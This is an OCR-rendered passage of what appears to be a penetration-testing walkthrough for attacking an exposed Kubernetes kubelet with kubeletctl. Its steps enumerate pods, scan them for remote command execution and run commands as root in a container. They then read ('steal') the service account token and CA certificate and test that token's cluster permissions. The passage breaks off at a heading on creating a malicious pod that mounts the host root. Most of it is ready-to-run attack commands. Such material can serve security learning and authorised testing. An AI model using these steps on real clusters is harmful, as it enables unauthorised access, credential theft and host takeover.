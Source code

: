   Use:

  ```bash
  kubeletctl -i --server <IP> pods
  ```

  ---

  ### 3. Look for Pods vulnerable to RCE

  ```bash
  kubeletctl -i --server <IP> scan rce
  ```

  Look for `RCE: +` → that pod allows remote command execution.

  ---

  ### 4. Execute commands in the pod (as root)

  ```bash
  kubeletctl -i --server <IP> exec "id" -p <pod_name> -c <container_name>
  ```

  ✔️ If it returns `uid=0(root)` → you have **root access inside the container**.

  ---

  ### 5. Steal the Service Account Token and Certificate

  ```bash
  kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <pod> -c <container> | tee k8.token

  kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p <pod> -c <container> | tee ca.crt
  ```

  ---

  ### 6. Test token permissions via `kubectl`

  ```bash
  export token=$(cat k8.token)

  kubectl --token=$token \
          --certificate-authority=ca.crt \
          --server=https://<IP>:6443 \
          auth can-i --list
  ```

  Check if the token has permission to create pods, read secrets, etc.

  ---

  ### 7. Create a malicious Pod mounting the host root
